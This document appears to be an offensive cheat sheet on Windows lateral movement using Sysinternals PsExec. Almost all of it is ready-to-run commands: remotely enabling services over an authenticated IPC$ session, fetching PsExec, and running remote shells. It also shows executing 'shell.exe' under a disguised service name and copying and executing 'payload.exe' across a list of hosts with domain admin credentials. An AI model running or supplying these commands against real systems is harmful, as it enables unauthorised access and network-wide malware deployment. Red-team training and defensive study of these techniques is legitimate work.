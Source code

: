 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - living-off-the-land
  - psexec
  - network-protocols
  - smb
  - windows
---
```

# Living off the Land

## 01 - Sysinternals

> [!IMPORTANT] Conditions
> It requires specific services to be enabled in order for `PsExec64.exe` to work. Here are the commands to enable it.

```
C:\> net.exe use \\<IP>\IPC$ /user:<username> <password>
sc.exe \\<IP> config netdde start= auto
sc.exe \\<IP> config netddedsdm start= auto
sc.exe \\<IP> config clipsrv start= auto
sc.exe \\<IP> start netdde
sc.exe \\<IP> start netddedsdm
sc.exe \\<IP> start clipserv
```

### 1.1 - Copy File from WebDAV

#### 1.1.1 - Command Prompt

```
C:\> net.exe use z: \\live.sysinternals.com\tools

C:\> copy z:\PsExec64.exe .

C:\> net.exe use z: /delete
```

#### 1.1.2 - PowerShell

```
PS C:\> New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"

PS C:\> Copy-Item z:\PsExec64.exe .

PS C:\> Remove-PSDrive -Name Z
```

## 02 - Execute PsExec

### 2.1 - Single Machine

```
C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" cmd.exe

C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" -d -c "C:\path\to\shell.exe"

C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -d -c "C:\path\to\shell.exe"
```

### 2.2 - Multiple Machines

When targeting multiple computers just add the `@` sign.

```
C:\> .\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> "<commands>"
```

## 03 - Use Cases

### 3.1 - Copy and Execute Payload in Multiple Machines

> [!INFO] One administrator user account can have access to all or most machines
> Use an `Administrator` user or any domain admin account that has access to all or most Windows machines.

```
C:\> .\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> cmd.exe /c copy /y "\\<IP>\C$\payload.exe" "C:\Windows\Temp\"

.\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> -d -c "cmd.exe /c C:\Windows\Temp\payload.exe"
```

---
## References

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

### rot169

- [rot169: Abusing Windows Admin Shares (Lateral Movement)](https://www.youtube.com/watch?v=41MUhlHGZ4E)

### harmj0y

- [harmj0y: Pass the Hash is Dead Long Live Pass the Hash](https://blog.harmj0y.net/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/)